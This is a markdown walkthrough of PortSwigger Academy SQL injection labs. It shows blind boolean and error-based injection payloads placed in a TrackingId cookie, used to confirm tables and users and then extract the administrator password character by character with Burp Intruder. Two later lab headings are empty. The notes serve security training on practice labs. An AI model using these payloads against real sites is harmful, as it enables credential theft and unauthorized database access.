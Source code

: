 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)
- This injection will be used in `Cookie` section in `TrackingID` input field of the page.

```sql
TrackingId=mCKLbQonMlRUp42B' AND '1'='1;  #Returns 'Welcome Back', This boolean condition means the page is vul to Bilnd SQLi
TrackingId=mCKLbQonMlRUp42B' AND '1'='2; #Doesn't Returns 'Welcome Back' 

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users LIMIT 1)='a;  #Confirming that there is a table called users
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator')='a; #confirming that there is a user called administrator

TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a #confirming that the password is greater than 1 character in length.
TrackingId=mCKLbQonMlRUp42B' AND (SELECT 'a' FROM users where username='administrator' AND LENGTH(password)>19)='a; #Password is 20 char long
```


### After determining the length of the password, the next step is to `test the character at each position` to determine its value.
- This step involve `Intruder` Module, set the Type: Sniper, Position: $a$, Intruder Setting: Grep-Match 'Welcome Back'
- Injection: `TrackingId=mCKLbQonMlRUp42B' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§;`
- Repeat the same step for every position i.e SUBSTRING(password,2 to 20,1)
- On correct position guessed by payload, it'll flag the `Welcome Back` in result.
- Take the guessed char & note it down.
- ![image](https://github.com/user-attachments/assets/c07e3d8c-e54b-40b1-a268-48a0263e764e)

### Related Concepts: SUBSTRING(string, start_position, length)
```
string: The string from which you want to extract the substring.
start_position: The position in the string to start extracting (1-based index).
length: The number of characters to extract.
```

## Lab 11: Blind SQL injection with conditional errors [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-conditional-errors)
```sql
If there is Error, means the Query is getting processed by Server & We can give conditions to test for the payloads

TrackingId=3K2lIneuWTHL6FqO' Error
TrackingId=3K2lIneuWTHL6FqO'' No Error

'||(SELECT '')||' error
'||(SELECT '' from dual)||' No error (ORacle DB)

TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from Incorrect_table)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT '' from users where ROWNUM=1)||'; No error means the `Users` table exists in DB

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Error means the query is getting processed at server end
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'; Codition True, No Error with this.

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that there is a user named Administrator
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  Error, confirms that the password Length is > 1

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN LENGTH(password)>=20 THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||'; Confirms the Length is of 20 characters
```

- Use SUBSTR( string, start_position [, length ]) to check the password length
- Use Intruder's Sniper Attack type to fuzz the password by comparing each & every position from SUBSTR(password,1,1) to SUBSTR(password,20,1)
- Copy each letter from result if recieved Error 500, use the same to login after extracting all 20 letters.

```sql
TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

TrackingId=3K2lIneuWTHL6FqO'||(SELECT CASE WHEN SUBSTR(password,20,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users where username='administrator')||';  

hn8u07gig6zkt9947d47

- Now, login with extracted passsword.
```


## Lab 11: Visible error-based SQL injection [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-error-based-sql-injection/sql-injection/blind/lab-sql-injection-visible-error-based)



## Lab 12: Blind SQL injection with time delays and information retrieval [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-time-delays/sql-injection/blind/lab-time-delays-info-retrieval)


